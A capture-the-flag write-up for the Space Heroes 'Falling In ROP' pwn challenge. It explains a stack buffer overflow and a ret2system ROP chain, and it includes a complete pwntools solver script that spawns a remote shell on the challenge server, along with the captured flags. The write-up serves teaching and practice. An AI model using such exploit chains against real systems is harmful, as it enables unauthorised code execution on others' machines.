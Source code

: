 
# Falling In ROP

## Overview

Points: 294

Category: Pwn

## Introduction
The "Falling in ROP" challenge from the Space Heroes CTF called for participants to exploit a binary to spawn a shell, thereby allowing them to capture a flag stored on the
server. The task necessitated the use of a Return-Oriented Programming (ROP) chain to bypass modern security mechanisms.

## Tools and Technologies Used
* pwntools: A Python-based CTF framework for crafting exploits.
* ROPgadget: This tool lets us search binaries for useful ROP gadgets.
* ELF: The binary format analyzed for vulnerabilities and exploitation.

## The Binary and Its Security
The provided binary "falling.bin" was scrutinized with the *checksec* feature of *pwntools*, revealing it was susceptible to a buffer overflow attack—a conclusion drawn from the
requirement to overwrite the return address with a crafted ROP chain.  
**Arch:**     amd64-64-little  
**RELRO:**    Partial RELRO  
**Stack:**    No canary found  
**NX:**       NX enabled  
**PIE:**      No PIE (0x400000)  

### Exploit Development
```.py
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)
```
Here, *pwntools* is configured with the target binary, enabling analysis and preparation for the exploit. The *checksec* is invoked to examine the binary's defenses.  

### Establishing a Remote Connection
```.py
fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")
```
Initiates a secure SSL connection to the remote challenge server, essential for sending our exploit.

### Calculating the Offset
![](Images/fallingImage1.png)
```.py
offset = 88
```
Determines the number of bytes to fill the buffer before the return address on the stack, which is crucial for the overflow attack.  

### Building the ROP Chain
***ROP Gadget***
```
pop rdi
ret
```
![](Images/fallingimage5.png)  
***"/bin/sh" in binary data***  
![](Images/fallingimage3.png)  
```.py
rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135
```

1. ROP(chal) initiates the ROP chain builder for the given binary.
2. pop_rdi finds a gadget that will set up the rdi register, which is the first argument for the system call.
3. ret finds a gadget that can be used for stack alignment, ensuring our chain executes smoothly.
4. binsh is the hardcoded address of the string /bin/sh in the binary, which is necessary to spawn a shell.
  
### Receiving the Initial Prompt
![](Images/fallingimage2.png)
```.py
fall_rop.recvuntil('Tell me who you are: ')
```
The script waits for the challenge prompt before sending the exploit payload, ensuring
that the exploit is synchronized with the program's state.  

### Crafting and Sending the Payload  
***System in binary***  
![](Images/fallingimage4.png)  
```.py
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)
```

### Constructs the payload using flat to concatenate:
1. A sequence of 'A's to fill the buffer up to the return address.
2. The ret gadget for stack alignment.
3. The pop rdi and binsh to set up our argument for the system call.
4. The address of system from the PLT to execute the call.

### Engaging Interactive Mode
fall_rop.interactive()
After sending the payload, this line provides interactive access to the shell spawned by
the exploit, allowing the participant to manually execute commands on the target
system.  

### Capturing the Flag
By executing the script, the participant successfully overflowed the buffer and executed
the ROP chain, resulting in a shell. Through this shell, the flag was retrieved with the
command cat flag.txt, revealing the contents:  
  
![](Images/fallingimage6.png)
***shctf{ha3_mu$t_n3v3r_w1n_6184}***

## Solver Script  
```.py
from pwn import *
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)

fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")

offset = 88

rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135

fall_rop.recvuntil('Tell me who you are: ')
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)

fall_rop.interactive()
```
































































![](Images/start.png)


```shctf{t0_pwnf1nity_&_b3y0nd!}```

![](Images/win.png)
